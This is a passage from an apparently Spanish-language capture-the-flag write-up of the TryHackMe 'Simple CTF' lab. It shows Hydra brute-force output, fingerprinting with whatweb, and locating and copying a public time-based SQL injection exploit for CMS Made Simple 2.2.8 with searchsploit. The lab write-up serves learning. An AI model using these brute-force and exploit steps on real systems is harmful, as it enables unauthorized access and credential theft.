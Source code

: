 ```shell
[STATUS] 14344401.00 tries/min, 14344401 tries in 00:01h, 1 to do in 00:01h, 3 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-26 15:14:45 
```

## [](#header-4)Por CVE en la pagina Web(2º Forma de conseguir el usuario)

Lo primero que haremos sera ver ante que nos estamos enfrentando para ello utilizaremos `whatweb` y vemos que es la version `CMS-Made-Simple[2.2.8]` 
```shell
parrot-hacking@SimpleCTF:~$ whatweb http://easyctf.thm/simple/

http://easyctf.thm/simple/ [200 OK] Apache[2.4.18], CMS-Made-Simple[2.2.8], Cookies[CMSSESSIDd6a5f2400115], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.221.233], JQuery[1.11.1], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Script[text/javascript], Title[Home - Pentest it]
```

Ahora vamos a buscar un **exploit** y vemos que hay uno de **SQLi**, lo que hace es probar a partir de unas _letras_, _numeros_ y _caracteres_ y si sale cual es la pagina te lo dice
```shell
parrot-hacking@SimpleCTF:~$ searchsploit CMS Made Simple 2.2.8
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                 | php/webapps/46635.py
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Ahora lo traeremos a nuestra maquina para ello pondremos
```shell
parrot-hacking@SimpleCTF:~$ searchsploit -m php/webapps/46635.py

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/parrot-hacking/Desktop/TryHackMe/Simple CTF/content/46635.py
```

Ahora miraremos como funciona el script de `python`
```shell
parrot-hacking@SimpleCTF:~$ python 46635.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

